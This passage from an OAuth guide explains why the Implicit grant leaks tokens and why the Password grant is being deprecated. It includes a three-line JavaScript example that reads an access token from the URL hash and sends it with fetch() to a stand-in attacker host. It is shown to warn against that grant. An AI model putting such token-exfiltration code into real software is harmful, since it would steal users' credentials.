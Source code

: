 This HTML page includes 2 JavaScript libraries:

* The code for the application itself: `my-spa-code-1.0.0.js`
* A library we found online that did something cool we needed and we pulled in: `a-library-found-online-that-looked-cool-0.42.0.js`

Let's assume that our code is 100% secure and we don't have to worry about it. The issue here is that the library we pulled in is an unknown quantity. It might include other libraries as well. Remember that the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with more `<script>` tags. Therefore, we have very little chance of ensuring that every other line of code from third-party libraries is secure.

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. The application at `http://steal-those-tokens.com/yummy` can save these off, call the `login.twgtl.com` to verify the tokens are useful, and then can call APIs and other resources presenting the `access_token`. Oops.

As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend that no one ever use this grant.

If you aren't dissuaded by the above example and you really need to use the Implicit grant, please [check out our documentation](/docs/v1/tech/oauth/#example-implicit-grant), which walks you through how to implement it. 

### Resource Owner's Password Credentials grant

The next grant on our list is the Resource Owner's Password Credentials grant. That's a lot of typing, so I'm going to refer to this as the Password grant for this section.

This grant is also being deprecated and the current recommendation is that it should not be used. Let's discuss how this grant works and why it is being deprecated.

The Password grant allows an application to collect the username and password directly from the user via a native form and send this information to the OAuth server. The OAuth server verifies this information and then returns an access token and optionally a refresh token.

Many mobile applications and legacy web applications use this grant because they want to present the user with a login UI that feels native to their application. In most cases, mobile applications don't want to open a web browser to log users in and web applications want to keep the user in their UI rather than redirecting the browser to the OAuth server.

There are two main issues with this approach:

1. The application is collecting the username and **password** and sending it to the OAuth server. This means that the application must ensure that the username and password are kept completely secure. This differs from the Authorization Code grant where the username and password are only provided directly to the OAuth server.
1. This grant does not support any of the auxiliary security features that your OAuth server may provide such as:
    * Multi-factor authentication
    * Password resets
    * Device grants
    * Registration
    * Email and account verification
    * Passwordless login
